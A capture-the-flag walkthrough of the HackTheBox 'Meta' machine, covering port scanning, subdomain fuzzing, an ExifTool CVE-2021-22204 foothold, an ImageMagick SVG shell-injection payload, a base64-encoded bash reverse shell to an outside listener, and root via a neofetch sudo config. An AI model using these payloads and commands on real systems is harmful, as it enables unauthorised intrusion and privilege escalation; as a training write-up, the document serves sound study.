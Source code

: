 # HackTheBox Meta Walkthrough

![](images/Meta-1.png)

Start off with rustscan.

rustscan --range 1-65535 -a 10.10.11.140 -- -A -T4 -Pn -sC -sV
Open 10.10.11.140:22
Open 10.10.11.140:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|\_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack Apache httpd
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache
|\_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

![](images/image-35-1024x439.png)

In the http\_tile we have :\_http-title: Did not follow redirect to http://artcorp.htb.

Edit /etc/hosts.

![](images/image-36.png)

Visit the HTTP link.

![](images/image-37-1024x1022.png)

wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://artcorp.htb' -H "Host: FUZZ.artcorp.htb" --hc 301

![](images/image-38-1024x303.png)

Again, edit /etc/hosts to add the new subdomain.

![](images/image-39-1024x783.png)

It looks like some sort of exif tool is being used to process the file.

With a bit of googling, I found CVE-2021-22204 and a well-written case study. [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

I used metasploit to create the .jpg.

![](images/image-40-1024x667.png)

And multi/handler to listen for a meterpreter shell.

![](images/image-41-1024x538.png)

![](images/image-42.png)

We don't have permission to read user.txt. But thomas can.

I couldn't find anything running linpeas so I tried pspy.

![](images/image-43-1024x86.png)

UID=1000 is thomas running convert\_images.sh on a schedule.

Lets check what's inside the file.

![](images/image-44-1024x92.png)

mogrify is an imagick commands. Lets check the version and see what we can do.

mogrify -version

Turns out the version is vulnerable to a shell injection attack.

Here is a nice blog post [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

We need to create a .svg file and upload it to /var/www/dev01.artcorp.htb/convert\_images/

<image authenticate='ff" \`echo $(id)> ./0wned\`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

We need to edit the authenticate field, I couldn't get it to work until I converted the command to base64. I think it has to do with character escaping.

![](images/image-45.png)

`echo 'bash  -i >& /dev/tcp/10.10.14.19/6666 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNjY2NiAwPiYxIAo=`

![](images/image-46-1024x176.png)

Start a NC listener and upload the file. Make sure to name the file poc.svg (or change the href)

![](images/image-47-1024x171.png)

And we've got a user foothold!

Run sudo -l to see what else we can find.

![](images/image-48-1024x136.png)

We can run neofetch as sudo but we cannot add any options.

We can try GTFObins [https://gtfobins.github.io/gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/)

TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF

Running the code doesn't work. We'll need to add it to the .config files of neofetch.

A quick google search and we can find the .config location. [https://github.com/dylanaraps/neofetch](https://github.com/dylanaraps/neofetch)

![](images/image-50-1024x249.png)

That's it. All we needed to do is add exec /bin/sh to the config file and then just the XDG\_CONFIG\_HOME value.

We're root!
